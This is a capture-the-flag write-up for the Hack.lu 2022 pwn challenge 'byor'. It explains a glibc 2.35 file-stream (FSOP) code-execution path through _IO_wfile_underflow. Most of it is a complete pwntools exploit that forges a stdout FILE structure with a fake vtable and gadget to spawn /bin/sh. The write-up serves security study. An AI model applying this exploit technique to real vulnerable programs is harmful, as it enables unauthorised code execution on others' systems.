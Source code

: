 ## byor
was a pwn challenge from Hack.lu 2022 edition

the challenge give us a leak of stdout address in libc

and permit us to overwrite `stdout`.

the goal was to bypass all new protections in libc-2.35 to revive FSOP code execution..

kylebot made some wonderfull research on this task,

by exploring the various path to achieve code execution with angr,

I recommend to read his blog --> [https://blog.kylebot.net/2022/10/22/angry-FSROP/](https://blog.kylebot.net/2022/10/22/angry-FSROP/)

and also the roderick write-ups `house of apple` 1,2 and 3 are great explanation of the attacks and the path taken (too bad I find them after the ctf only...)

![https://www-roderickchan-cn.translate.goog/post/house-of-apple](https://www-roderickchan-cn.translate.goog/post/house-of-apple-%E4%B8%80%E7%A7%8D%E6%96%B0%E7%9A%84glibc%E4%B8%ADio%E6%94%BB%E5%87%BB%E6%96%B9%E6%B3%95-3/?_x_tr_sl=auto&_x_tr_tl=en&_x_tr_hl=fr)

most of the path he found were using `_wide_data` structure to achieve code execution.

so this challenge overwrite `_wide_data` and we have to found a another way to get code execution

a quick look at the reverse:

![](https://github.com/nobodyisnobody/write-ups/raw/main/Hack.lu.CTF.2022/pwn/byor/pics/reverse.png)


working with teammate VoidMercy, and UDP, we found a path via `_IO_wfile_underflow`

and here is the solution to this task..


```python
#!/usr/bin/env python
# -*- coding: utf-8 -*-
from pwn import *

context.update(arch="amd64", os="linux")
context.log_level = 'info'

exe = ELF("./byor_patched")
libc = ELF("./libc.so.6")

# shortcuts
def logbase(): log.info("libc base = %#x" % libc.address)
def rcu(d1, d2=0):
  p.recvuntil(d1, drop=True)
  # return data between d1 and d2
  if (d2):
    return p.recvuntil(d2,drop=True)

host, port = "flu.xxx", "11801"

if args.REMOTE:
  p = remote(host,port)
else:
  p = process([exe.path])

libc.address = int(rcu(': ', '\n'),16)-libc.sym['_IO_2_1_stdout_']
logbase()

# some constants
stdout_lock = libc.address + 0x21ba70	# _IO_stdfile_1_lock  (symbol not exported)
stdout = libc.sym['_IO_2_1_stdout_']
fake_vtable = libc.sym['_IO_wfile_jumps']-0x18
# our gadget
gadget = libc.address + 0x0000000000163830 # add rdi, 0x10 ; jmp rcx

fake = FileStructure(0)
fake.flags = 0x3b01010101010101
fake._IO_read_end=libc.sym['system']
fake._IO_save_base = gadget
fake._IO_write_end=u64(b'/bin/sh\x00')	# will be at rdi+0x10
fake._lock=stdout_lock
fake._codecvt= stdout + 0xb8
fake.unknown2=p64(0)*2+p64(stdout+0x20)+p64(0)*3+p64(fake_vtable)

p.send(bytes(fake))
# enjoy shell
p.interactive()
```

